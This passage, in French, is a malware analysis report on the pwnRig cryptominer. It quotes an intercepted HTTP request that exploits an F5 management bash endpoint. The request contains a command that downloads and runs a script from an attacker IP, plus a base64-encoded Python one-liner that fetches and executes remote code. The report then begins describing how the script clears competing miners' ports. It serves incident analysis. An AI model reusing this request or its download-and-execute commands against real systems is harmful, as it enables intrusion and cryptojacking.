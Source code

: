 # Reverse CryptoMiner pwnRig
__Antoine POURCEL - AISI - 05 octobre 2021__

![logo](img/logo_inverted.png)
## Découverte de l'attaque

La requête suivante à été interceptée par un répartiteur de charge placé sur l'infrastructure cliente : 
```
POST /mgmt/tm/util/bash HTTP/1.1\r
Host: <redacted>\r
Connection: keep-alive\r
Accept-Encoding: gzip, deflate\r
Accept: */*\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) 
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36\r
Content-Type: application/json\r
Authorization: Basic YWRtaW46QVNhc1M\=\r
X-F5-Auth-Token: \r
Content-Length: 353\r\n\r


{"utilCmdArgs": "-c '(curl -s hxxp://209.141.40.190/xms || wget -q -O - hxxp://209.141.40.190/xms || lwp-download hxxp://209.141.40.190/xms /tmp/xms) | bash -sh; bash /tmp/xms; rm -rf /tmp/xms; echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8yMDkuMTQxLjQwLjE5MC9kLnB5IikucmVhZCgpKSc\= | base64 -d | bash -'", "command": "run"}#015
```
On y remarque une instruction destinée à être executée par un ordinateur cible. Il y est demandé le téléchargement d'un fichier `xms` par de multiples moyens, puis son execution et enfin sa suppression. Une chaine de caractère encodée est également envoyé pour y être décodée et exécutée par la machine ciblé.

## Fichier XMS
Nous téléchargeons le fichier en contactant l'URL spécifiée dans la requête via une proxychains configurée pour passer par le réseau Tor.
 Les caractéristiques du fichier sont les suivantes : 
 
 |*Nom*|*Taille*|*MD5*|*SHA1*|
 |-----|----|--------|------|
 |xms|12K|7e1ae8c6705ab8de4ed7cf36701a18c6|800c962a8d57669cd27d68b4205a997c2d86b7c6|

Le fichier est un script Bash dont les opérations sont les suivantes : 
  * Suppression ou désactivation de miner possiblement déjà utilisés :
    * Commence par libérer des ports possiblement ouverts.Les ports concernés sont les ports suivants :
      * 3333
      * 4444
      * 5555
      * 7777
      * 14444
      * 5790
      * 45700
      * 2222
      * 9999
      * 20580
      * 13531